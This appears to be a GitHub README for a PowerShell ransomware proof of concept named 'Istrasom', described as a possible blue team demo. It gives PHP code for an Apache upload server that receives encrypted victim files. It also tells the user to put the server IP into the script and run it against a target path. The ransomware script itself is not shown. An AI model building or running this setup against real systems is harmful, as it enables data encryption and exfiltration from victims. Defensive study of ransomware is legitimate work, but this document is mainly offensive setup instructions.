 # Istrasom
# POC_Ransomware_powershell
Maybe a POC of a ransomware with powershell to perform some blue team test or demo

You need a web server with an upload file php (used in the function upload). You can used my own upload php file. (I used the variable "filename" in my powershell script to upload encrypted files, so it can be easier for you to use the same name and same code :

Use a linux with apache server :
Place in your /var/www/html a folder named "uplaods" and a php file with the following code :

```
<?PHP
  if(!empty($_FILES['filename']))
  {
    $path = "uploads/";
    $path = $path . basename( $_FILES['filename']['name']);

    if(move_uploaded_file($_FILES['filename']['tmp_name'], $path)) {
    	 echo "The file ".  basename( $_FILES['uploaded_file']['name']). 
      " has been uploaded";
    } 
    else{
    	echo "There was an error uploading the file, please try again!";
    }
  }
?>
```

Put in the script your server IP and the name of your uploading file
Just execute the powershell script with the command :

./Istransom.ps1 pathtoransom

